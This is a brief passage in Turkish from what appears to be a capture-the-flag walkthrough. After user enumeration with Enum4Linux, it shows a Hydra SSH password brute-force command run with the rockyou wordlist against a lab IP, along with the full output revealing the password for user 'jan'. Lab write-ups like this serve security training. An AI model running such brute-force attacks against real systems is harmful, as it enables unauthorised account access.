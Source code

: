 
Enum4Linux ile jan ve kan kullanıcı adlarına ulaşmıştık. Hydra kullanarak ssh password burte force uygulayacağız. 


```
──╼ #hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.109.11
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-11-13 23:23:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.109.11:22/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 14344245 to do in 1532:31h, 14 active
[STATUS] 110.33 tries/min, 331 tries in 00:03h, 14344070 to do in 2166:47h, 14 active
[STATUS] 102.29 tries/min, 716 tries in 00:07h, 14343685 to do in 2337:12h, 14 active
[22][ssh] host: 10.10.109.11   login: jan   password: armando

```

Brute force sonucu jan kullanıcısının passwordüne ulaşmış olduk .


